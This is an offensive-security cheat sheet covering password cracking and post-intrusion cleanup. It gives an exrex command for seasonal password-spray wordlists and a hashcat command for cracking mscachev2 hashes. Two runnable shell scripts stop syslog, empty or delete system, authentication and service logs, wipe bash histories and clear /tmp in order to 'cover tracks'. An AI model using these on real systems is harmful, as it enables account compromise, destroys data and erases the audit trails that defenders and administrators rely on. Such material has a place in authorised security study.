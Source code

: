 ## CRACKING {#cracking}

### Password Spray List {#password-spray-list}

Use `exrex` \[[https://github.com/asciimoo/exrex](https://github.com/asciimoo/exrex)\] to generate a custom wordlists to password spray with:

```text
python exrex.py "(Spring|Winter|Autumn|Fall|Summer|Winter)(20)1[78]!"
```

### Small Wordlist, Rules {#small-wordlist-rules}

I got hit with having to crack mscachev2 hashes which can be slow. This is a perfect time to instead try targeted \(small\) wordlists and instead pass in some tried-and-tested rules: `hashcat64.exe -a 0 -m 2100 -r rules/d3adhob0.rule mscachev2hash.txt wordlist.txt -o cracked.txt`  


## SYSTEM CLEANUP

### Purge Linux Logs

```bash
#!/bin/sh

/etc/init.d/sysklogd stop
VARLOGS="auth.log boot btmp daemon.log debug dmesg kern.log mail.info mail.log mail.warn messages syslog udev wtmp"
cd /var/log
for ii in $VARLOGS; do
  echo -n > $ii
  rm -f $ii.? $ii.?.gz
done

/etc/init.d/samba stop
rm -f /var/log/samba/*

rm -f /var/lib/dhcp3/*

for ii in /var/log/proftpd/* /var/log/postgresql/* /var/log/apache2/*; do
  echo -n > $ii
done
```

### Covering Your Tracks

```bash
#!/bin/bash
echo "COVERING TRACKS"
echo  "clearing /var/log/auth.log"
echo "" > /var/log/auth.log
echo "clearing ~/.bash_history"
echo "" > ~/.bash_history
echo "clearing /root/.bash_history"
echo "" > /root/.bash_history
echo "removing ~/.bash_history"
rm ~/.bash_history -rf
echo "removing /tmp/"
rm -R /tmp/*
echo "clearing /var/log/messages"
echo "" > /var/log/messages
echo "clearing command history"
history -c
```
